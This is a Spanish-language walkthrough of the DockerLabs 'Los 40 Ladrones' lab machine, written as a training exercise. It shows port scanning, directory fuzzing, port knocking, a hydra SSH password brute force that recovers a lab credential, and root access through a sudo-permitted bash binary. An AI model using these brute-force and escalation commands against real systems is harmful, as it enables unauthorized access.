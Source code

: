 # Los 40 Ladrones DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip los40ladrones.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh los40ladrones.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:18 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

Vemos una web de `apache2` normal, por lo que vamos a realizar un poco de `fuzzing`:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10792]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/qdefense.txt         (Status: 200) [Size: 111]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un archivo interesante llamado `/qdefense.txt` que si entramos dentro de el veremos lo siguiente:

## Escalate user toctoc

```
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Vemos que tenemos que hacer un `portknocking` de la siguiente forma en nuestro `host`:

```shell
knock <IP> 7000 8000 9000
```

Ahora si nosotros enumeramos que puertos estan abiertos de nuevo:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Info:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:52 EST
Initiating ARP Ping Scan at 11:52
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:52, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:52
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:53, 26.37s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000063s latency).
Scanned at 2025-01-17 11:52:34 EST for 27s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.55 seconds
           Raw packets sent: 131090 (5.768MB) | Rcvd: 24 (1.040KB)
```

Vemos que se nos ha abierto el puerto `SSH` por lo que vamos a probar a poner como usuario `toctoc` ya que parece que se refiere a el como un usuario y tirarle fuerza bruta con `hydra`:

### Hydra

```shell
hydra -l toctoc -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-17 11:54:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 323.00 tries/min, 323 tries in 00:01h, 14344106 to do in 740:09h, 34 active
[STATUS] 264.67 tries/min, 794 tries in 00:03h, 14343635 to do in 903:16h, 34 active
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 28 final worker threads did not complete until end.
[ERROR] 28 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-17 11:58:17
```

Vemos que hemos encontrados las credenciales del usuario `toctoc` por lo que nos conectaremos a el.

### SSH

```shell
ssh toctoc@<IP>
```

Metemos como contraseña `kittycat` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos los siguiente:

```
Matching Defaults entries for toctoc on f120d0baef4d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User toctoc may run the following commands on f120d0baef4d:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
```

Vemos que podemos ejecutare el binario `/opt/bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo /opt/bash
```

Si ejecutamos eso veremos que somos `root`, por lo que ya la habremso termiando.
